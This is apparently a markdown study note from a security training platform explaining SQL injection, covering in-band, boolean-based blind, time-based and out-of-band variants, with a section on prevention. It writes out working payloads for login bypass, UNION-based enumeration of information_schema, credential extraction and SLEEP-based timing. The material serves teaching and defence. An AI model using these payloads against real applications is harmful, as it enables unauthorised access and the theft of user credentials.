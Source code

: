 ```yaml
---
title: SQLi
---
```


_[SQL](/Knowledge/Databases/mysql-cheatsheet.md) Injection_ is an attack on a web application DB server that causes malicious queries to be executed through the input that hasn't been properly validated.

Malicious queries can be used to steal, delete or alter private and customer data and also attack the web applications authentication methods to private or customer areas.

## Example of SQLi

We have a blog post that is available under the URL:

```
https://website.thm/blog?id=1
```

We can see that the blog entry is selected with the `id` query param. We can guess the SQL statement used to retrieve the article from the DB is something like this:

`SELECT * from blog where id=1 and private=0 LIMIT 1;`

SQL Injection is introduced when **user input is introduced into the DB query**, In this case, it's the `id` parameter.

Let's pretend article `id=2` is still locked as private, so it cannot be viewed on the website. We could now instead call the URL:

```sh
https://website.thm/blog?id=2;--
```

Which would then, in turn, produce the SQL statement:

```sql
SELECT * from blog where id=2;-- and private=0 LIMIT 1;
```

## In-band SQLi

_[In-Band](knowledge/off-sec/glossary/in-band-out-band.md) SQL Injection_ is the easiest type to detect and exploit.

### Error-Based SQL Injection

Obtaining information about the DB structure as error messages from the DB printed directly to the browser screen.

The key to **discovering** error-based SQL Injection is to break the code's SQL query by trying certain characters until an error message is produced (most commonly `'` or `"`).

### Union-Based SQL Injection

This type of Injection utilises the SQL UNION operator alongside a SELECT statement to return additional results to the page.

## Blind SQLi

_Blind SQLi_ is when we get little to no feedback to confirm whether our injected queries were, in fact, successful or not. This is because the error messages have been disabled, but the injection still works regardless. All we need is a **little bit of feedback** to successful enumerate a whole DB.

### Authentication Bypass

Often times login forms that are connected to a DB of users aren't interested in the content of the username and password but more whether the two make a matching pair in the users table.

With that in mindy, it's unnecessary to enumerate a valid username/password pair. We just need to create a DB query that replies with a `true`.

Let's say we have the query:

```sql
select * from users where username='%username%' and password='%password%' LIMIT 1;
```

To make this into a query that always returns as true, we can enter the following into the password field:

```sql
' OR 1=1;--
```

Which turns the SQL query into the following:

```sql
select * from users where username='' and password='' OR 1=1;
```

`1=1` is a true statement so the query will _return_ `true`.

### Boolean-based Blind SQLi

_Boolean-based_ SQLi refers to the response we receive back from our injection attempts which is `boolean` (in any form). That boolean value says if SQL Injection [payload](knowledge/off-sec/glossary/payload.md) was successful or not.

With just two possible outcomes, it's possible to enumerate a whole DB structure and contents.

Let's say we have the SQL query that processes the login form to see if the username is already _taken_:

```sql
select * from users where username = '%username%' LIMIT 1;
```

And we have the _boolean_ response in form of error message saying that the username is taken.

```json
{
  "taken": true
}
```

First, we establish the number the number of columns in the `users` table with [UNION](/Knowledge/Databases/mysql-cheatsheet.md#UNION) statement:

```sql
admin123' UNION SELECT 1;--
```

If `taken === false`, we can confirm this is the incorrect value of columns. Keep on adding more columns until we have `taken === true`:

```sql
admin123' UNION SELECT 1,2,3;--
```

When the number of columns has been established, we can work on the enumeration of the DB.

First, we need to discover the DB name. We can do this by using the built-in [database()](/Knowledge/Databases/mysql-cheatsheet.md) method and then using the [UNION](/Knowledge/Databases/mysql-cheatsheet.md#UNION) operator to try and find results that will return a true status:

```sql
admin123' UNION SELECT 1,2,3 where database() like 'a%';--
```

`In the example above, we try to see if the DB name starts with`a`. We can cycle through all the letters, numbers and `-`and`_` characters until we discover a match. Thanks to that we can \_brute-force_ the name of the DB.

When we have established the DB name, we can use it to enumerate table names using a similar method by utilising the [information_schema](/Knowledge/Databases/mysql-cheatsheet.md#information_schema) DB:

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema='sqli_three' and table_name like 'a%';--`
```

This query looks for results in the `information_schema` DB in the `tables` table where the DB name matches `sqli_three`, and the table name begins with `a`. Like previously, we'll need to cycle through letters, numbers and characters until a positive match.

Let's say we've discovered a `users` table in the `sqli_three` DB this way. We can confirm its existence with the following username [payload](knowledge/off-sec/glossary/payload.md):

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
```

Lastly, we need to enumerate the column names in the `users` table so we can properly search it for login credentials. Again using the `information_schema` DB and the information we've already gained, we can start querying it for column names. Using the [payload](knowledge/off-sec/glossary/payload.md) below, we search the `columns` table where the DB is equal to `sqli_three`, the table name is `users`, and the column name begins with `a`.

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';`
```

As we're looking for multiple results, we'll have to add this to our [payload](knowledge/off-sec/glossary/payload.md) each time we find a new column name, not to keep discovering the same one:

```sq
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';`
```

Let's assume we've enumerated 3 columns this way: `id`, `username` and `password`. Now we can use them to query the `users` table for login credentials, starting with `username`, then `password`:

```sql
admin123' UNION SELECT 1,2,3 from users where username like 'a%

-- username is `admin`
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```

## Time-based SQLi

A _time-based_ blind SQL Injection is very similar to the [Boolean Based Blind SQLi](knowledge/off-sec/pentesting/sqli.md#Boolean-based%20Blind%20SQLi). The same requests are sent, and there is no visual indicator queries being right. In this case however, the indicator of a correct query is based on **the time the query takes to complete**.

This time delay is introduced by using built-in methods such as [sleep()](/Knowledge/Databases/mysql-cheatsheet.md) alongside the [UNION](/Knowledge/Databases/mysql-cheatsheet.md#UNION) statement. `sleep` will only get executed upon a successful `UNION SELECT` statement, for example:

```sql
admin123' UNION SELECT SLEEP(5);--
```

If there was no pause in the response time, we know that the query was unsuccessful, so we add another column:

```sql
admin123' UNION SELECT SLEEP(5),2;--
```

This payload should have produced a 5-second time delay, which confirms the successful execution of the UNION statement and that there are two columns.

Thanks to that we could go through enumeration process similar to the one in the [Boolean-based Blind SQLi](knowledge/off-sec/pentesting/sqli.md#Boolean-based%20Blind%20SQLi), adding the `SLEEP()` method into the `UNION SELECT` statement:

```
referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--`
```

## Out-of-band SQLi

_[Out-of-Band](knowledge/off-sec/glossary/in-band-out-band.md)_ SQLi isn't as common as it either depends on specific features being enabled on the database server or the web application's business logic, which makes some kind of external network call based on the results from an SQL query.

## Preventing SQLi

- Prepared Statements (With Parameterized Queries):
  - the first thing a developer writes is the SQL query and then any user inputs are added as a parameter afterwards
    - this ensures that the SQL code structure doesn't change and the database can distinguish between the query and the data
- Input validation
  - an allow list can restrict input to only certain strings
  - a string replacement method in the programming language can filter the disallowed characters out
- Escaping User Input
  - prepending a `\` to special characters characters causes them to be parsed just as a regular string and not a special character

---

It's worth checking the Search fields for SQLi vuln.
